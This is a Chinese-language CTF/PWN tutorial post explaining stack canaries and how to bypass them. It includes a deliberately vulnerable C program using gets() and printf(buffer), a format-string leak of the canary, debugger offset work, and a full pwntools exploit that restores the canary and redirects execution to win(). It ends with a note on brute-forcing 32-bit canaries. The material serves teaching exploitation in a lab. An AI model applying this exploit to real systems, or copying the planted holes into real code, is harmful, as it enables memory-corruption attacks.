 ```yaml
---
title: 'Canaries'
date: '2023-08-21'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '防御缓冲区溢出'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure toHeading={3} />
</div>

Canary 的意思是金丝雀，源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。

Canary 的设计非常简单——在函数的开头，一个随机值被放置在栈上，作为检测用的保护值。在程序执行 `ret` 之前，程序会检查该值是否被修改过：如果没有被改变，则说明没有发生缓冲区溢出；反之，说明发生了栈溢出，程序会中止。

这种通过检查保护值的手段，可以缓解栈溢出的攻击行为。因为保护值的位置在保存的基地址和返回地址之间，是栈溢出的常见目标位置。攻击者无法跳过保护值直接修改返回地址等关键数据。这样简单有效的检测机制，可以大大增强程序的安全性。

<Note>
  在 Linux 上，Canary 设计为以 `\x00` 结尾。本意是为了保证 Canary 可以截断字符串。如果你在用输出函数的时候处理错了字符串，导致打印的字符串超出了 Canary 的位置，这个 `\x00` 可以终止字符串的输出，防止越界访问 Canary 的值；同时空字节 `\x00` 也会中断字符串打印，不会错误打印后面栈上的内容。但是这也使它很容易被识别出来：攻击者可以通过输出一个可能的 Canary 值，并检验末尾是否为 `\x00` 来判断真正的Canary 是多少。
</Note>

## 0x01 绕过 Canary

有两种常用的方法可以绕过 Canary。

### 1x01 泄漏 Canary

获取 Canary 的值的方法因程序而异，没有固定的万能方式。但主要的目的是获取它的值。最简单的方法是，如果程序存在格式化字符串漏洞的话，可以利用这个漏洞来泄漏栈上的内容。因为 Canary 和其它局部变量一样，位于栈上。

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[64];

  puts("Leak me");
  gets(buffer);

  printf(buffer);
  puts("");

  puts("Overflow me");
  gets(buffer);
}

int main() {
  vuln();
}

void win() {
  puts("You won!");
}
```

#### 2x01 32-bit

LINK

首先，让我们检查一下是否有 Canary。

```
$ pwn checksec vuln-32
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

现在我们需要计算 Canary 所在的偏移量，为此我们将使用 pwndbg。

```
$ pwndbg vuln-32

$ b *0x080491d7
$ r
Leak me
%p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x00007025
0xffffd700:	0xf7ffcfd8	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0x437aa500
```

最后一个输出的值是 Canary。我们可以从以下几点来判断：

1. 它距离缓冲区开始的地址约 64 字节，这很接近缓冲区末尾的位置。
2. 它的末尾是 `\x00` ，和以 `ff` 和 `f7` 开头的 libc 库地址不同，看起来非常随机。

从缓冲区开始，我们大约输出了 24 个地址，然后可以找到 Canary 的值。所以我们可以在它前后各输出一个地址，来确定 Canary 的位置。

```
$ ./vuln-32
Leak me
%23$p %24$p %25$p
0x4c1e00 (nil) 0xf7e43e34
```

似乎是 `%23$p`。

*注：Canary 对于每个新进程都是随机的，因此不会相同。*

现在让我们用 pwntools 自动抓取 Canary：

```python:canary.py
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```
$ python exp.py
[+] Starting local process './vuln-32': pid 10042
[*] Leak me
[+] Canary: 0x143e3e00
```

现在剩下的就是计算出 Canary 之前的偏移量，然后计算出 Canary 之后到返回地址的偏移量。

```
$ pwndbg vuln-32
$ b *0x080491d7
$ r
Leak me
%23$p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x24333225
0xffffd700:	0xf7ff0070	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0xf5dafb00
```

我们看到 Canary 位于 `0xffffd73c`。稍后，假设返回地址位于 `0xffffd74c`。让我们在下一个 `gets()` 之后中断并检查我们用什么值覆盖它。

```
$ b *0x0804920f
$ c
Continuing.
0x915d8a00
Overflow me
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 2, 0x0804920f in vuln ()
[...]
$ x/20wx 0xffffd73c
0xffffd73c:	0x61616171	0x61616172	0x61616173	0x61616174
0xffffd74c:	0x61616175	0x61616176	0x61616177	0x61616178
```

现在，我们可以检查 Canary 和 EIP 偏移量：

```
$ cyclic -l 0x61616171
Finding cyclic pattern of 4 bytes: b'qaaa' (hex: 0x71616161)
Found at offset 64
$ cyclic -l 0x61616175
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

返回地址是 Canary 开始后的 16 个字节，因此是 Canary 后的 12 个字节。

```python:exp.py
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # 用 Canary 值覆盖 Canary 以不触发检测
payload += b'A' * 12    # Padding 到返回地址
payload += p32(0x08049245)

p.sendline(payload)

p.interactive()
```

#### 2x02 64-bit

方法同上，只是变成了 64-bit。

<Note>
只要注意：在 64-bit 中，字符串首先进入相关寄存器，每个地址可以容纳 8 字节，因此偏移量可能不同。
</Note>

LINK

### 1x02 暴力破解 Canary

这在 32-bit 上是可能的，有时也是不可避免的。但在 64-bit 上这种方法是不可行的。因为 32-bit 的 Canary 值通常为 4 字节，爆破遍历空间较小，可行性高；但 64-bit 扩展到 8 字节，遍历空间极大，爆破难度大幅提高。

总体思路是通过大量运行目标进程，每次使用随机 Canary 值来碰撞正确的 Canary 值。但需要明确的指示来判断爆破是否成功，例如出现已知明文 `flag{`。这需要大量时间。


